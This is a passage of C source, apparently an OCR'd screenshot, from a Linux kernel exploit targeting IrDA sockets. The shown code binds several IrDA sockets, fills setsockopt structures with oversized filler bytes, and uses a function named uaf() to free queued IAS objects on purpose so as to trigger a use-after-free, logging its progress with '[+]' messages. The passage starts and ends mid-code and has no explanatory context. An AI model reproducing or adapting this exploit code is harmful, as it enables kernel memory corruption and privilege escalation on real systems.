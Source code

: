 ```c
		usleep(1000);
	}
	//free(sa);
}
int irda_set_ias(int fd,char *name)
{
	struct irda_ias_set set;
	int err = 0;
	memset(&set,0,sizeof(set));
	strncpy(set.irda_class_name,name,64);
	memset(&set.irda_attrib_name,'C',255);
	set.irda_attrib_type = 2;
	set.attribute.irda_attrib_octet_seq.len = 8;
	memset(&set.attribute.irda_attrib_octet_seq.octet_seq,0x41,1023);
	set.daddr = 4;
	err = setsockopt(fd,0x10a,0x2,&set,sizeof(set));
	//printf("setsockopt(SET) fd=%d  err=%d\n",fd,err);
	return err;
}
int irda_bind(int fd,u_int16_t  family,u_int8_t lsap_sel,int sir_addr,char *name)
{
	struct sockaddr_irda sa,sa1;
	int err;
	memset(&sa,0,sizeof(sa));
	sa.sir_family =family;
	sa.sir_lsap_sel = lsap_sel;
	sa.sir_addr = sir_addr;
	memcpy(&sa.sir_name,name,25);
	err = bind(fd,(struct sockaddr*)&sa,sizeof(sa));
	//printf("bind fd=%d err=%d\n",fd,err);
	return err;
}
void uaf(unsigned long target_addr)
{
	int fd1,fd2,fd3,fd4;
	struct sockaddr_irda sa,sa1;
	struct irda_ias_set set;
	int err = 0;
	pthread_t tid[1024];
	memset(&set,0,sizeof(set));
	fd1 = socket(0x17,0x5,0);
	fd2 = socket(0x17,0x5,0);
	fd3 = socket(0x17,0x5,0);
	fd4 = socket(0x17,0x5,0);
	/* create namespace for xfrm
	 * this is not required to trigger the bug
	 */
	create_ns();
	irda_bind(fd1,4,0x4a,0x3,"c");
	int i;
	irda_bind(fd2,4,0x4b,0x3,"c");
	irda_bind(fd3,4,0x4c,0x3,"c");
	irda_bind(fd1,4,0x4a,0x3,"c");
	for(i=0;i<5;i++) {
		/* 0x00 means that it takes self->ias_obj */
		irda_set_ias(fd2,"\x00");
		irda_set_ias(fd3,"\x00");
	}
	close(fd1);
	close(fd3);
	/* annoying the queue and free the first queued object*/
	printf("[+] Freeing the first queued ias object \n");
	close(fd2);
```